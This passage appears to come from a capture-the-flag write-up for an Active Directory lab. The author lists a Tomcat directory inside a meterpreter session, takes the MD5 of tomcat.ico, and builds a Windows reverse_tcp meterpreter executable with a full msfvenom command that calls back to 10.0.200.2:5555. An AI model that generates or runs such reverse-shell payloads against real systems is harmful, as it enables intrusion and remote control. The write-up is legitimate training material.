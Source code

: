 Right now, I'm as `LOCAL SERVICE`. Next, I ran `ls` to list out the folders and files.

```
meterpreter > ls
Listing: C:\Program Files\Apache Software Foundation\Tomcat 8.5
===============================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100776/rwxrwxrw-  58068  fil   2020-10-07 00:58:40 +0800  LICENSE
100776/rwxrwxrw-  1777   fil   2020-10-07 00:58:40 +0800  NOTICE
100776/rwxrwxrw-  7314   fil   2020-10-07 00:58:40 +0800  RELEASE-NOTES
100776/rwxrwxrw-  81704  fil   2020-10-07 00:59:30 +0800  Uninstall.exe
40776/rwxrwxrw-   4096   dir   2020-11-03 08:58:32 +0800  bin
40776/rwxrwxrw-   4096   dir   2020-11-03 09:21:48 +0800  conf
40776/rwxrwxrw-   12288  dir   2020-11-03 08:58:32 +0800  lib
40776/rwxrwxrw-   16384  dir   2020-11-22 00:29:46 +0800  logs
40776/rwxrwxrw-   4096   dir   2020-11-22 00:45:18 +0800  temp
100776/rwxrwxrw-  21630  fil   2020-10-07 00:58:50 +0800  tomcat.ico
40776/rwxrwxrw-   16384  dir   2020-11-22 00:45:15 +0800  webapps
40776/rwxrwxrw-   0      dir   2020-11-18 13:55:43 +0800  work
```

This question ask for MD5 hash for `tomcat.ico`. To do that, I ran `checksum md5 tomcat.ico`.

```
meterpreter > checksum md5 tomcat.ico
4644f2d45601037b8423d45e13194c93  tomcat.ico
```

**Answer: 4644f2d45601037b8423d45e13194c93**

### Q3 - Plain text password for domain user

![](/images/ctf-round-3-active-directory/7.png)

Next, I need to create a windows meterpreter using `msfvenom`. Simply ran `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.200.2 LPORT=5555 -f exe > meterpreter.exe`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.200.2 LPORT=5555 -f exe > meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes

$ file meterpreter.exe 
meterpreter.exe: PE32+ executable (GUI) x86-64, for MS Windows
```
